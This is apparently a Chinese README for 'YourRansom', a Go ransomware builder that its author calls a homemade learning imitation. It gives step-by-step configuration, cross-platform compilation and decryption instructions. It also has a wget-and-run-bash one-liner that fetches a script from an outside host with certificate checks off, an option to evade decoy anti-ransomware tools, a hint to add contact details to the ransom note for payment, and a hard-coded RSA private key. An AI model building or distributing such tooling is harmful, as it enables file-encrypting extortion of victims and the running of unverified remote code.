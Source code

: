 YourRansom
---

YourRansom 是使用 Golang 编写的一个加密工具，具有加密参数内置、密钥随机生成、在线下载readme文件等功能，设计上参考了【勒索软件】的设计思想。或者换句话说这就是一个自制的学习用的【勒索软件】仿制品。

在下只是个萌新，程序写的也很 naive，请各位大佬轻些疼♂爱。

- [自行编译](#自行编译)
  - [一键生成](#一键生成)
  - [准备环境](#准备环境)
  - [配置参数](#配置参数)
  - [编译生成](#编译生成)
  - [加密解密](#加密解密)
  - [使用在线IDE](#使用在线ide)
  - [关于收费功能模块](#关于收费功能模块)
- [LICENSE](#license)

## 自行编译

因为 YourRansom 将加密的配置内置在编译后的二进制文件中，所以如果您想要使用自己的 YourRansom ，就需要调整参数并编译一个自己的 YourRansom 。

### 一键生成

如果你选择使用一键脚本那就没必要继续看下去了(大概？)

本脚本为Bash脚本，仅支持Linux/macOS。如您使用Windows，请自行根据下面的的readme编译，不能在Cygwin上运行。(主要是我不知道怎么判断Cygwin，所以没法写脚本)

执行：`wget https://sh.bobiji.com/yr1k/wtf.sh --no-check-certificate && bash wtf.sh`

执行后请跟随文本提示操作，输入对应配置信息即可。

生成密钥对的私钥会被存放于当前工作目录下的YourRansom.private中，生成的二进制文件会打包存放于当前目录下的yr1k.tar.gz

P.S. 脚本还有不完善之处，我懒得写了，不爽的同学可以自行修改，如果您愿意合并回上游那就更好了。

脚本GitHub地址：https://github.com/popu125/scripts/tree/gh-pages/yr1k

### 准备环境

YourRansom 使用 Golang 编写，编译前也需要准备对应的 [Golang 环境](https://golang.org/doc/install)，或使用 cloud9 等在线环境编译（通常也需要自己装 Golang 环境就是了）。

之后即可通过 go get 从 GitHub 获取 YourRansom 的源文件：`go get github.com/YourRansom/YourRansom`

### 配置参数

YourRansom 将配置存储在二进制文件中，但并不是直接存储原数据（曾经是，后来我感觉那样太年轻太简单有时天真，于是改成了如今的模式），而是存储 JSON 格式的配置文件使用 DES 加密后又 base64 得到的字符串。我专门为此提供了一个配置生成器与样板文件：[YourRansom/confGen](https://github.com/YourRansom/confGen)，只需要对着表格将数据填写完成，再执行 confGen 即可获得配置信息。

关于RSA密钥：请使用[生成工具]([https://github.com/YourRansom/genKeypair](https://github.com/YourRansom/genKeypair))生成一个RSA密钥对。

配置项表：

| 配置项名 | 配置说明 | 备注 |
| --- | --- | --- |
| PubKeyN | RSA公钥的N参数 | 在生成工具输出的`public.key`文件中 |
| PubKeyE | RSA公钥的E参数 | 在生成工具输出的`public.key`文件中 |
| Filesuffix | 加在被加密文件后的后缀名 |
| KeyFilename | 加密后存储Key的文件名 |
| DkeyFilename | 解密时用于读取解密Key的文件名 |
| Alert | 程序启动时显示的提示信息 |
| Readme | 离线readme的内容 | 仅当在线readme下载失败时生效 |
| ReadmeFilename | 离线readme的存储文件名 | 同上 |
| ReadmeUrl | 在线readme的下载地址 | 留空表示不启用在线readme下载 |
| ReadmeNetFilename | 在线readme的存储文件名 |
| EncSuffix | 指定要被加密的文件后缀 | 格式为`后缀1\|后缀2\|后缀3` |
| SkipHidden | 是否跳过隐藏文件(仅Windows) | 可以过部分诱饵式反勒索工具 |

执行：

```
$ ./confGen 配置文件加密密钥 example.json

```

如不报错则说明配置文件已经加密完成，打开`原文件名.enc`即可得到加密后的配置文件。

使用您的文本编辑器打开`$GOPATH/src/github.com/YourRansom/YourRansom/config.go`，如果您未设置`GOPATH`环境变量，那么打开`$HOME/go/src/github.com/YourRansom/YourRansom/config.go`(Unix-like)或`%USERPROFILE%\go\src\github.com\YourRansom\YourRansom\config.go`(Windows)，将配置文件和加密密钥填入，配置即完成。

### 编译生成

直接执行命令，生成的二进制文件会直接输出至当前目录：

```
$ GOOS=[windows|linux|darwin] GOARCH=[386|amd64] go build github.com/YourRansom/YourRansom

```

考虑到兼容性问题，如果您要为使用 Windows 系统的用户提供服务，建议编译为 win32 程序(因为64位的Windows系统仍然支持32位程序)，如果面向 Linux ，您可能需要编译32位和64位两个版本，而 macOS(darwin)只需要64位版本就够了。

通过自带的Makefile，我们可以一键编译多个版本：

```
$ cd $GOPATH/src/github.com/YourRansom/YourRansom/ # only if you've set $GOPATH
$ make
```

### 加密解密

直接执行生成的二进制文件即可加密，而解密要复杂得多。

解密需要获得加密是生成的密钥文件，具体文件名取决于配置项`KeyFilename`，然后使用 PubKey 所对应的私钥和 [AES 密钥解密工具](https://github.com/YourRansom/YourRansom-keyDecryptor) 解密该文件，得到一个`YourRansom.dkey`文件，将其更名为你设置的`DkeyFilename`配置项。

将解密后的 Dkey 文件至于 YourRansom 同目录下，再次执行 YourRansom 即可解密。

默认设置中的公钥对应的私钥为：

```
-----BEGIN RSA PRIVATE KEY-----
MIICXQIBAAKBgQC84QPyfYZNO+3vYRkPoLMJ19eH1rizdhpsVedWWAOoWHZ1j9Zk
Kq96G7MMsDLpq7tbjZDjNO/m0lyj00OR/oRT+HCekOmlNgxnBaMEUbs73RYhIogX
La1yEg6hOYhIgyHmfIW4qLBAk8/QaV3n2t3CzMpDIN/yVIACVrsoqHnS7wIDAQAB
AoGAL56fiySAlrpUS7T0R49hdErZySKmoIBXOxcRYyB/k5LyEsO37rsgUK3pH3rQ
6z7j1rpDXDU9grlop9kcwRMlM0NizRJhwF0ubwMxUmp0Swc+2PiyG3V+3EfvGIk/
7+2Jt+YgEibn0/t5ua0hseazmshGWUnN98UBdrqTSk4ikEkCQQDN9OhxybFhyRoz
SfEQEKpXViWKdCVa1xOL1RC+PycyQyGGw50R+F/hhwdbHVThhzn44YBI/E5vy6sd
LZCo6gDdAkEA6sXTUvgPfHbMMzFm/LV/2fmNsJpdQxVOuVz9qMhsJHSlskjGALHK
XZHxjtvFxW1BizYgj7tVI9pB76IQBTAgOwJBAMtmCkWODktnQyPR62uVOdUk89BH
ojiTXe9kDbQFRJ2D5NFl0HJV28MsCly2nARa+yrK8VmjK4eHGceoH0xiRVUCQQDY
GSefYz297wuew4ZsbhQ064QEXtIhgWdpL7M8vN7t34D1Tg8TbJM89a1HNfwg8aQ3
I6dtJZ4E1k2C6cWdQOMpAkAXN5lhkNchAq/jFSppNFJSzzg3YPJRWdoC9UiSuLZg
rEO6FkNJrlYWuB4coaOLRZGbagW/h+xjV62DPw1ylg4s
-----END RSA PRIVATE KEY-----
```

### 使用在线IDE

如果您不喜欢在本地安装 Golang 环境，只是想简单地将它编译出来尝尝鲜的话，使用 Cloud9 、 Wide 之类的在线环境大概会是一个好选择。

首先在 [https://c9.io](https://c9.io) 注册一个账户并登陆，然后新建一个 Workspace 后即得到了一个在线的编译环境，剩下的操作参考前面的说明即可。

### 关于收费功能模块

因为这只是一个学习用品所以并没有此功能提供，您可以通过在readme中附加联系方式来获得类似的功能。

### TODO

 -[ ] 分文件密钥和自动重命名文件(作者无限期颓废中)

## LICENSE

GPLv3
